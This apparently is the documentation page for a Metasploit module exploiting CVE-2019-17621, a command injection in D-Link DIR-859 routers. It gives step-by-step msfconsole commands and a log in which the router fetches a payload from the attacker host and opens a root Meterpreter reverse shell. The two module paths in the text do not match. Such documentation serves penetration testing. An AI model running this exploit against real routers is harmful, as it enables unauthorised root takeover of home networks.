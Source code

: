## Introduction

This module exploits CVE.2019-17621, a remote unauthenticated OS command injection in the UPnP API of the DIR-859 and other D-link SOHO routers via the `service` argument to the `gena.cgi` URL.

## Vulnerable Application

Get a D-Link DIR-859 router (or [any of the devices/firmware versions mentioned here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147)), or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Verification Steps

1. Set up router/emulated device
2. Start `msfconsole`
3. Do: `use exploit/linux/upnp/dlink_dir859_subscribe_exec`
4. Do: `set RHOSTS <router_ip>`
5. Do: `set LHOST <local_ip>`
6. Do: `run`
7. You should get a session as `root`.

## Scenarios

```
msf5 exploit(linux/http/dlink_dir859_exec_telnet) > run 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://192.168.0.2:8080/r2hOQycyVvN2BP
[*] Client 192.168.0.1 (Wget) requested /r2hOQycyVvN2BP
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Meterpreter session 7 opened (192.168.0.2:4444 -> 192.168.0.1:54599) at 2020-01-10 11:36:52 -0300
[*] Server stopped.

meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo 
Computer     : 192.168.0.1
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter >
```
